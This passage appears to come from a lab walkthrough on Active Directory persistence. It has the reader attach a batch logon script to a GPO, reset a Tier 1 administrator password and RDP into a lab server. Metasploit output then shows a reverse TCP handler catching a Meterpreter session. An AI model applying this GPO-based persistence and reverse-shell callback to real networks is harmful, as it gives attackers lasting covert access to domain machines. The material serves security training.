 

Select your Batch file as the script and click **Open** and **OK**. Click **Apply** and **OK**. This will now ensure that every time one of the administrators (tier 2, 1, and 0) logs into any machine, we will get a callback. 

In  order to simulate this, let's reset the password for one of the Tier 1  administrator accounts and authenticate to a server. Use any of the  techniques you've learned in the previous AD rooms to either reset the  password of one of the Tier 1 administrators. Once done, remember to  start your MSF multi-handler, and let's test it out by RDPing into  THMSERVER1 or THMSERVER2!

Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you should get a callback on your multi-handler:

- **Terminal**      

```powershell
msf5 exploit(multi/handler) > run 
Started reverse TCP handler on 172.31.16.251:4445 

[*] Sending stage (176195 bytes) to 172.31.1.201 
[*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100 

meterpreter >
```

Note: You need to create a Logon event for the GPO to execute. If you just closed your RDP session, that only performs a disconnect which means it would not  trigger the GPO. Make sure to select navigate to sign out as shown below in order to terminate the session. This will ensure that a Logon event  is generated when you reauthenticate:

![img](assets/7e98b74b5dd21316a351384085eb2b5d.png)

